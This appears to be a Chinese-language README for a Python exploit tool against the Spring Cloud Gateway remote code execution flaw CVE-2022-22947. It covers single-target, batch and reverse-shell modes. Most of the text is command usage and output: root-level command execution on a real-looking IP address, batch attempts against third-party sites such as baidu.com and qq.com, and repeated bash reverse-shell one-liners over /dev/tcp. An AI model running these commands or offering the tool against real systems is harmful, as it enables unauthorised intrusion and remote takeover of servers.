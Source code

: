 ## 一、Spring Cloud Gateway远程代码执行漏洞

   危害等级：高危

   POC/EXP情况：已公开

   CNVD编号：CNNVD-2022-16402

​	CVE编号：CVE-2022-22947

## 二、影响范围：

- - VMWare Spring Cloud GateWay 3.1.0
  - VMWare Spring Cloud GateWay >=3.0.0，<=3.0.6
  - VMWare Spring Cloud GateWay <3.0.0

## 三、漏洞描述

  Spring Cloud Gateway存在远程代码执行漏洞，该漏洞是发生在Spring Cloud Gateway应用程序的Actuator端点，其在启用、公开和不安全的情况下容易受到代码注入的攻击。攻击者可利用该漏洞通过恶意创建允许在远程主机上执行任意远程请求。

## 四、CVE-2022-22947的使用

### （一）脚本特点

1、支持单个目标验证

2、支持批量漏洞验证

3、支持反弹shell

### （二）脚本参数

```
-h   查看帮助信息
-u   指定url目标
-c   指定需要执行的命令，默认执行id
-f   指定目标url文件
```

### （三）脚本使用

**1.单个目标验证**

方式一：

```shell
E:\pocs>python cve-2022-22947.py

    验证单个目标：
            1、python cve-2022-22947.py  进入交互模式后，根据提示输入目标url和需要执行的命令，注意命令的正确性
            2、python cve-2022-22947.py  -u http://example.com -c whoami
        验证多个目标
            1、python cve-2022-22947.py -f url.txt ，将需要验证的目标全部放在url目录下
        反弹shell
            1、python cve-2022-22947.py  -u http://example.com -c "bash -i >& /dev/tcp/ip/port 0>&1"
            2、进入交互模式，输入目标和反弹shell的命令

请输入一个目标url地址：http://123.58.236.76:8484
请输入想要执行的命令，默认执行id：whoami
[+]目标：http://123.58.236.76:8484 ,成功获取回显命令：['root\\n']
```

方式二：

```shell
E:\learn\python\pocs\pocs>python cve-2022-22947.py -u http://123.58.236.76:8484 -c whoami

    验证单个目标：
            1、python cve-2022-22947.py  进入交互模式后，根据提示输入目标url和需要执行的命令，注意命令的正确性
            2、python cve-2022-22947.py  -u http://example.com -c whoami
        验证多个目标
            1、python cve-2022-22947.py -f url.txt ，将需要验证的目标全部放在url目录下
        反弹shell
            1、python cve-2022-22947.py  -u http://example.com -c "bash -i >& /dev/tcp/ip/port 0>&1"
            2、进入交互模式，输入目标和反弹shell的命令

[+]目标：http://123.58.236.76:8484 ,成功获取回显命令：['root\\n']
```

**2、批量验证**

```shell
E:\learn\python\pocs\pocs>python cve-2022-22947.py -f url.txt

    验证单个目标：
            1、python cve-2022-22947.py  进入交互模式后，根据提示输入目标url和需要执行的命令，注意命令的正确性
            2、python cve-2022-22947.py  -u http://example.com -c whoami
        验证多个目标
            1、python cve-2022-22947.py -f url.txt ，将需要验证的目标全部放在url目录下
        反弹shell
            1、python cve-2022-22947.py  -u http://example.com -c "bash -i >& /dev/tcp/ip/port 0>&1"
            2、进入交互模式，输入目标和反弹shell的命令

[+]目标：http://123.58.236.76:8484 ,成功获取回显命令：['uid=0(root']
[+]目标：http://123.58.236.76:8484 ,成功获取回显命令：['uid=0(root']
[+]目标：http://123.58.236.76:8484 ,成功获取回显命令：['uid=0(root']
[-]目标：http://www.baidu.com,漏洞验证失败，请手动验证!
[-]目标：http://www.qq.com,漏洞验证失败，请手动验证!
[+]目标：http://123.58.236.76:8484 ,成功获取回显命令：['uid=0(root']
```

**3.反弹shell**

```shell
python cve-2022-22947.py -u http://123.58.236.76:8484 -c "bash -i >& /dev/tcp/xxx.xxx.xxx/65534 0>&1"
```

![image-20220519233354807](Readme.assets\image-20220519233354807.png)

![image-20220519233429912](Readme.assets\image-20220519233429912.png)
